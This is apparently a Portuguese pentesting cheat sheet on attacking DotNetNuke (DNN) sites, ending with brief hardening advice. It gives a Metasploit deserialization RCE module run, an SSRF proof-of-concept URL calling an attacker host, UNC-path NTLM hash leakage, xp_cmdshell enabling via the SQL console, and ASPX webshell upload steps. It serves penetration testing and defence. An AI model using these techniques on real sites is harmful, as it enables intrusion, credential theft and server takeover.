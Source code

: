 # DotNetNuke (DNN)

{{#include ../../banners/hacktricks-training.md}}

## DotNetNuke (DNN)

Se você entrar como **administrador** no DNN, é fácil obter **RCE**, no entanto, várias técnicas *não autenticadas* e *pós-autenticação* foram publicadas nos últimos anos. Este cheat-sheet coleta os primitivas mais úteis para trabalhos ofensivos e defensivos.

---
## Enumeração de Versão e Ambiente

* Verifique o cabeçalho de resposta HTTP *X-DNN* – geralmente revela a versão exata da plataforma.
* O assistente de instalação vaza a versão em `/Install/Install.aspx?mode=install` (acessível em instalações muito antigas).
* `/API/PersonaBar/GetStatus` (9.x) retorna um blob JSON contendo `"dnnVersion"` para usuários de baixo privilégio.
* Cookies típicos que você verá em uma instância ao vivo:
* `.DOTNETNUKE` – ticket de autenticação de formulários ASP.NET.
* `DNNPersonalization` – contém dados de perfil de usuário em XML/serializados (versões antigas – veja RCE abaixo).

---
## Exploração Não Autenticada

### 1. RCE de Desserialização de Cookie (CVE-2017-9822 e seguimentos)
*Versões afetadas ≤ 9.3.0-RC*

`DNNPersonalization` é desserializado em cada solicitação quando o manipulador 404 embutido está habilitado. XML elaborado pode, portanto, levar a cadeias de gadgets arbitrárias e execução de código.
```
msf> use exploit/windows/http/dnn_cookie_deserialization_rce
msf> set RHOSTS <target>
msf> set LHOST  <attacker_ip>
msf> run
```
O módulo escolhe automaticamente o caminho certo para versões corrigidas, mas ainda vulneráveis (CVE-2018-15811/15812/18325/18326). A exploração funciona **sem autenticação** em 7.x–9.1.x e com uma conta de *baixo privilégio* *verificada* em 9.2.x+.

### 2. Server-Side Request Forgery  (CVE-2025-32372)
*Versões afetadas < 9.13.8  –  Patch lançado em abril de 2025*

Um bypass da correção mais antiga do `DnnImageHandler` permite que um atacante force o servidor a emitir **requisições GET arbitrárias** (SSRF semi-cega). Impactos práticos:

* Escaneamento de portas internas / descoberta de serviços de metadados em implantações na nuvem.
* Acessar hosts que, de outra forma, estariam protegidos por firewall da Internet.

Prova de conceito (substitua `TARGET` & `ATTACKER`):
```
https://TARGET/API/RemoteContentProxy?url=http://ATTACKER:8080/poc
```
A solicitação é acionada em segundo plano; monitore seu listener para callbacks.

### 3. Exposição de Hash NTLM via Redirecionamento UNC  (CVE-2025-52488)
*Versões afetadas 6.0.0 – 9.x (< 10.0.1)*

Conteúdo especialmente elaborado pode fazer com que o DNN tente buscar um recurso usando um **caminho UNC** como `\\attacker\share\img.png`. O Windows realizará a negociação NTLM, vazando os hashes da conta do servidor para o atacante. Atualize para **10.0.1** ou desative o SMB de saída no firewall.

### 4. Bypass de Filtro de IP  (CVE-2025-52487)
Se os administradores confiarem em *Filtros de Host/IP* para proteção do portal de administração, esteja ciente de que versões anteriores a **10.0.1** podem ser contornadas manipulando `X-Forwarded-For` em um cenário de proxy reverso.

---
## Pós-Autenticação para RCE

### Via console SQL
Sob **`Configurações → SQL`** uma janela de consulta embutida permite a execução contra o banco de dados do site. No Microsoft SQL Server, você pode habilitar **`xp_cmdshell`** e gerar comandos:
```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
GO
xp_cmdshell 'whoami';
```
### Via upload de webshell ASPX
1. Vá para **`Settings → Security → More → More Security Settings`**.
2. Adicione `aspx` (ou `asp`) a **Allowable File Extensions** e **Save**.
3. Navegue até **`/admin/file-management`** e faça o upload de `shell.aspx`.
4. Acione-o em **`/Portals/0/shell.aspx`**.

---
## Escalação de Privilégios no Windows
Uma vez que a execução de código é alcançada como **IIS AppPool\<Site>**, técnicas comuns de escalonamento de privilégios do Windows se aplicam. Se a máquina for vulnerável, você pode aproveitar:

* **PrintSpoofer** / **SpoolFool** para abusar do *SeImpersonatePrivilege*.
* **Juicy/Sharp Potatoes** para escapar de *Service Accounts*.

---
## Recomendações de Fortalecimento (Blue Team)

* **Upgrade** para pelo menos **9.13.9** (corrige bypass de SSRF) ou preferencialmente **10.0.1** (problemas de filtro de IP e NTLM).
* Remova arquivos residuais **`InstallWizard.aspx*`** após a instalação.
* Desative a saída SMB (portas 445/139).
* Aplique filtros de *Host* fortes no proxy de borda em vez de dentro do DNN.
* Bloqueie o acesso a `/API/RemoteContentProxy` se não estiver em uso.

## Referências

* Documentação do módulo Metasploit `dnn_cookie_deserialization_rce` – detalhes práticos de RCE não autenticada (GitHub).
* Aviso de Segurança do GitHub GHSA-3f7v-qx94-666m – informações sobre bypass de SSRF de 2025 e patch.
{{#include ../../banners/hacktricks-training.md}}
